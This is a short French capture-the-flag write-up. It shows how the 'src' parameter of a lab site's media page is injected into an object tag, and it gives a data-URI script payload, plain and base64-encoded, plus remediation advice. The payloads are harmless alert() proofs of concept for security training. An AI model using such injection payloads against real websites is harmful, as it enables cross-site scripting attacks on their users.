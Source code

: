 
/index.php?page=media&src=nsa

le parametre src est injectable:

si l'image existe, il va chercher l'image dans: `http://172.16.42.21/images/[src].jpg`

```
<object data="http://172.16.42.21/images/nsa_prism.jpg"></object>
```

si il n'existe pas il va la mettre dans une balise object.

index.php?page=media&src=lol

```
<object data="lol"></object>
```
Nous pouvons donc injecter du code js.

index.php?page=media&src=data:text/html,<script>alert(5)</script>

fonctionne mais ne donne pas de flag, essayons en base64

index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg1KTwvc2NyaXB0Pg==


Amelioration:

Ne pas parse du base64 directement depuis le query parameters.
Verifier la source et autoriser uniquement les images qui proviennes du site.